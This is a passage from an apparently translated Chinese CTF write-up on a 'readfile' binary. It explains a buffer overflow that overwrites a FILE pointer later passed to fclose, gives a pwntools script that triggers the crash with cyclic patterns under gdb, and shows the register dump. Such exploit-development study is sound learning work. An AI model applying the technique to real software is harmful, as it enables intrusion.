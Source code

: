 

此函数会在fread时发生多汁，无论给定的写入内容是什么，Fread 都会将其写入 local_110h，这就给了我们一个缓冲区溢出漏洞。

在此溢出中， local_ch 变量将会被覆盖，该变量中会包含打开文件的文件标头。在溢出之后会出现这个问题，然后此指针会被传递给 fclose。如果该指针不指向一个有效的文件结构，会出现一个神奇的错误，在这种情况下这样的错误对用户来说很不利。

我们从下面的脚本开始。此脚本只是创建了函数，使得调用该二进制文件函数变得更容易一点。我们将文件名设置称大写字符循环值，将文件内容设置成另一种循环的小写字符；所以如果我们在之后的崩溃中看到这些循环值，就可以知道数据 (在 Github win_1.py) 的出处了。



```
from pwn import *
import string
 
context.terminal = ['tmux', 'splitw', '-h']
 
r = None
 
def write_file(name, data):
    r.sendline('1')
    r.sendline(name)
    r.sendline(str(len(data)))
    r.sendline(data)
 
def read_file(name):
    r.sendline('2')
    r.sendline(name)
 
filename = '/tmp/' + cyclic(240, alphabet=string.ascii_uppercase)
print(filename)
try:
    os.remove(filename)
except:
    pass
 
r = process("./readfile")
write_file(filename, cyclic(1000))
 
r = process("./readfile")
gdb.attach(r, '''
c
''')
read_file(filename)
 
r.interactive()
```



执行这个代码之后，我们会看到下面这样的问题。



```
[----------------------REGISTERS-----------------------]
*EAX  0x63616170 ('paac')
*EBX  0xf771b000 &lt;-- 0x1a9da8
*ECX  0xf771bb07 (_IO_2_1_stdout_+71) &lt;-- 0x71c8980a /* 'nq' */
*EDX  0xf771c898 &lt;-- 0x0
*EDI  0x0
*ESI  0x63616170 ('paac')
*EBP  0xffe59fa8 &lt;-- 'saactaacuaacvaa...'
*ESP  0xffe59e50 --&gt; 0xf771bac0 (_IO_2_1_stdout_) &lt;-- 0xfbad2887
*EIP  0xf75d4386 (fclose+22) &lt;-- cmp    byte ptr [esi + 0x46], 0 /* '~F' */
[-------------------------CODE-------------------------]
 =&gt; 0xf75d4386 &lt;fclose+22&gt;    cmp    byte ptr [esi + 0x46], 0
    0xf75d438a &lt;fclose+26&gt;    jne    0xf75d4510          &lt;0xf75d4510; fclose+416&gt;
[------------------------STACK-------------------------]
```